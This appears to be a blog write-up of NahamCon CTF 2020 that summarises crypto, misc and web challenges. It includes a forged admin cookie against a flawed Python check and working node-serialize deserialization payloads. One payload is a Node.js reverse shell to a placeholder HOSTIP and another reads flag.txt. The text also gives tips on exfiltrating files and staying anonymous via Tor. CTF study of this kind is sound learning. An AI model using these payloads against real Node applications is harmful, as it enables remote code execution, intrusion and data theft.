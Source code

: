 # NahamCon 

##### Jun 15, 2020

[NahamCon CTF](https://ctftime.org/event/1067) was a fun event last weekend.
I only had about 10 hours for it, so I did what tends to suit me best: crypto plus some misc challenges.
Overall I scored close to 1500, which is OK but there is always room to do more.

### Crypto

The crypto problems were largely a let-down, easy and/or of a guess-my-encryption type:

* **Docxor** was an attack on short-key-length xor with a guessable plaintext prefix (magic bytes)
* **Homecooked** was a custom scheme with super-slow decryption because of an inefficient primality test
* **Ooo-la-la** was a factorization attack on very-short-key RSA
* **Raspberry** was like RSA but with a modulus that was a product of many small primes (so another factorization attack)
* **December** was an attack on DES (you had to guess that one of the weak keys was used)
* **Twinning** was another short-key RSA factorization attack (once you realized that this always had p = q + 2, 
you could just solve for the primes)
* **Unvreakable Vase** was about reversing lower-cased base64 (e.g., you could check various capitalizations and see what they gave)
* I did not solve **Elsa4** during the contest - it was [LC4](https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html) encryption with a time-based random seed for the nonce
(you had to guess exactly how the seed was set)

### Misc

The misc problems did have some educational moments:

* **SSH Logger** was about stealing an SSH password as root via process monitoring (e.g., stracing children of sshd and snooping on strings read)
* **Glimpse** had a setuid-root Gimp 2.8 binary to exploit (you can actually run Python code with Gimp!)
* **Trapped** was about escaping`trap`in bash (by invoking trap again :o)
* in **Alkatraz** you had to read/print the flag file in restricted bash with no`cd`, no redirects, no / in executables, no history, readonly PATH and SHELLOPTS, and only`ls`in PATH (you could still load the file into history)
* **Awkward** was about exfiltrating the flag file using`awk`but there was no text output at all, you could only obtain exit codes (use getline, then leak the ascii code of the result character by character)
* **Fake File** was about finding a hidden flag file (`find . -exec grep ...` worked just fine)

### Some more poking around

Obviously, there is still much to learn. After the contest, I took a look at some of the web challenges:

* **Agent_95** was about faking a [Windows 95 user agent](https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident) header
* **Localghost** had data embedded in Javascript variables (probably lifted directly from another CTF because 
they had not adjusted the flag format :P)
* **Phphonebook** wanted you to guess the variable name to use in a POST request to trigger an emergency (it is *emergency*)
* in **Official Business** you had to exploit cookie verification in a buggy Python server 
(the server code was given away in robots.txt - this is only a CTF afterall :)
* **Seriously** was a Node JS [unserialization](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution) exploit, setting up an 
[immediately invoked function expression](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)
(the best trick I have learned from NahamCon challenges so far)

### Official Business

Hindsight is always 20/20, of course, but it can also give insight into the typical heuristics people use when
they race against time. Take, for example, **Official Business**: the job was to "log in as admin", and one could
get the [server code](/posts/NahamCon2020_Official_Business-server.py). The options looked like:

* matching the admin username and password

   ```python
user == "hacker"  
sha512(password) == b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
```

    ...but good luck with inverting SHA512.

* or, engineering (in hex form) a JSON cookie for which control makes it to the end of the function

   ```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")

    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")
            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

    so that it returns`True,...` The code checks for a cookie named *auth* that has a *digest* property,
which is then used in an integrity check on the cookie that involves the server's *secret_key*.
It may feel like "Game over" since that key is not known. However, *secret_key* turns out to be a Python string

   ```python
app.secret_key = open("secret_key", "r").read().strip()
```

    so concatenation with bytes inside the check throws an exception, and thus *any* digest passes!
(It would even be simpler not to have the cookie because then the whole if block is skipped;
however, in the index() function you need the *admin* property set to *True* to get the flag rendered.)

In the end, all that is required is a cookie`{"admin": True}`, which can be sent via a one-liner in curl. 
But it was likely [quicker](https://ctftime.org/writeup/21461) to get to the flag by simply trying 
a combination of whatever unique values appear in the code:

   ```python
{"user": "hacker", "password": "password", "digest": "hackshackshackshackshackshackshackshackshackshackshackshackshack", "admin": True}
```


### Seriously

My favorite problem at NahamCon is the Node JS unserialization exploit - **Seriously**. 
With a carefully crafted *cart* cookie in the challenge, the`server:port/cart` page that displayed the 
shopping cart could be used to execute arbitrary JS code on the server.
I have not heard about this vulnerability before,
so I decided to play with it.

Normally the cart cookie corresponded to something like
```js
{"items": {"0": {"name": "Haworthiopsis attenuata", "price": 19.99, "count": 1}}}
```
converted to string and then encoded via base64. 
But there were no integrity checks, so you could alter the cookie any way you wanted.
It so turns out that one can specify function-valued properties, and even so called 
[immediately invoked function expressions](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) (IIFEs) that are called right away
when the cookie is unserialized (i.e., converted back from string) by the server.


#### Reverse shell

One [writeup](https://github.com/empty-jack/ctf-writeups/blob/master/NahamCONCTF-2020/web-seriously.md) exploited this
to spawn a reverse shell, so I tried a variation on that too. You do not need eval(String.fromCharCode(...)) part, just define
your function expression directly and serialize that:

```js
var c = {"items": {"0": {"name": function() {
               var client = new require('net').Socket()
               client.connect("PORT", "HOSTIP", function() {
                  var sh = require('child_process').spawn('/bin/sh',[]);
                  client.write("Connected!\n");
                  client.pipe(sh.stdin);
                  sh.stdout.pipe(client);
                  sh.stderr.pipe(client);
                  sh.on('exit',function(code,signal){
                     client.end("Disconnected!\n");
                  });
               });
            }
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}"}}', '}()"}}')        // insert () to make it an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

A shell is nice because it gives a lot of freedom besides finding flag.txt and printing its contents.
For instance, you can tar-gzip the whole challenge directory and exfiltrate it (about 5 MB). 
There were no networking binaries (nc, curl, telnet...) on the server but it did have a C compiler, so you could easily do TCP over 
sockets. Or just cat the tarball and redirect netcat's output stream.  

Looking at the server code, the exploit activates at

```js
cart = serialize.unserialize(Buffer.from(cart, 'base64').toString('ascii'));
return res.render('cart', { cart: cart, user: user });
```

i.e., the shell spawns right before the assignment to *cart*, then the unserialized object is used to render the cart page.
(You did not even need to have the auth cookie for this to work.)


#### Exfiltration to browser

A reverse shell is useful but it is definitely an overkill. Moreover, it is a giant beacon to the perpetrator's computer
on the internet. It is much more anonymous to exfiltrate the flag to the browser, e.g., Tor Browser 
(or you could even curl through Tor). 
We have arbitrary code execution, so it is easy - just have the IIFE return the flag as a string:

```js
var c = {"items": {"0": {"name": function() {
               return require('fs').readFileSync("flag.txt");
            },"price": 987,"count": 2
          }}}

var c_ser = require('node-serialize').serialize(c)
c_ser = c_ser.replace('}","price', '}()","price')   // make it into an IIFE

console.log((new Buffer(c_ser)).toString('base64'))
```

This way, when the cart is rendered, the name of the plant is the flag.

Using analogous steps, you can exfiltrate any file (such as the challenge directory tarball) by preparing it, reading it, converting
it to base64, and putting the result in place of the plant name. There were no limits on HTTP response length, so getting a 10-MB
base64 string out worked just fine in the challenge.

---

[back](/)
